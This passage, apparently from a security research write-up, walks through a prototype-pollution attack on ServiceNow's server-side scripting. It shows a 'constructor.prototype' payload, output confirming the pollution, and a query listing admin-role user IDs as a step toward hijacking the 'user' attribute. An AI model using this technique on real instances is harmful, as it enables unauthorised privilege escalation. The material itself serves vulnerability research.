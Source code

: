 **Result:**
```
*** Script: [*] Payload JSON object: {"foo":"bar", "constructor":{"prototype":{"polluteTarget":"polluted"}}}  
*** Script: [*] Before polluted: undefined  
*** Script: [*] Before merged form_data: {}  
*** Script: [*] After polluted: "polluted"  
*** Script: [*] After merged form_data: {"foo":"bar"}
```

Let's go!!! It worked! **Now all objects that didn't define attribute `polluteTarget`'s value will become string `"polluted"`**!

That being said, we can now pollute the `user` attribute!

But **what value should we pollute**?

**Hmm... Let's take a look at the `user_role_obj.user` value:**
```javascript
var GlideRecordUtil = new global.GlideRecordUtil();

var gr = new GlideRecord('sys_user_has_role');
gr.addQuery('role', '2831a114c611228501d4ea6c309d626d'); // admin
gr.query();

do {
    var user_role_obj = {};
    GlideRecordUtil.populateFromGR(user_role_obj, gr);
    gs.info(user_role_obj.user);
} while (gr.next());
```

**Result:**
```
*** Script: undefined  
*** Script: 6816f79cc0a8016401c5a33be04be441  
*** Script: 0d5b61dfc0a8026601c8e80d8bb57f6e  
*** Script: 5137153cc611227c000bbd1bd8cd2005  
*** Script: 45a1b90dc3313000bac1addbdfba8fe8  
*** Script: 8d56406a0a0a0a6b004070b354aada28  
*** Script: 9142b90dc3313000bac1addbdfba8f8d  
*** Script: 8d5938070a0a0a6b00f8a5e8d3375606  
*** Script: 9112fd0dc3313000bac1addbdfba8f95  
*** Script: 97000fcc0a0a0a6e0104ca999f619e5b  
*** Script: 0802b90dc3313000bac1addbdfba8fdb  
*** Script: 46c1293aa9fe1981000dc753e75ebeee  
*** Script: c4713d0dc3313000bac1addbdfba8ff3  
*** Script: 9ce1b90dc3313000bac1addbdfba8ff1  
*** Script: 5137153cc611227c000bbd1bd8cd2007  
*** Script: 5b7c200d0a640069006b3845b5d0fa7c  
*** Script: 62d78687c0a8010e00b3d84178adc913  
*** Script: 5137153cc611227c000bbd1bd8cd2006
```

It looks like an ID... Maybe it's a user ID?
